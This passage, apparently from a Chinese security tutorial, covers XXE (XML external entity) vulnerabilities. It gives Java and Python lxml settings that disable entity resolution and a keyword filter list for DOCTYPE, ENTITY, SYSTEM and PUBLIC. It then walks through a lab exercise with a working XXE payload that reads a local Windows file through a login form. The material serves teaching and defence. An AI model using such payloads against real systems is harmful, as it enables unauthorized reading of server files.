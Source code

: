 JAVA：

```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

python：

```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

过滤用户提交的 XML 数据

过滤关键词：

- <!DOCTYPE
- <!ENTITY
- SYSTEM
- PUBLIC

## 实例

**xxe-lab**

![image-20220811163807711](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811163807711.png)

登陆界面，输入用户名密码，抓包

![image-20220811163854896](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811163854896.png)

发现输入的数据使用post请求发送，且格式类似XML。

构造payload，执行文件读取：

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM "file:///c:/windows/win.ini">
]>
<user>
<username>&test;</username>   <!-- 实体引用 -->
<password>Mikasa</password>
</user>
```

![image-20220811164116973](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220811164116973.png)

成功获取到Windows配置信息。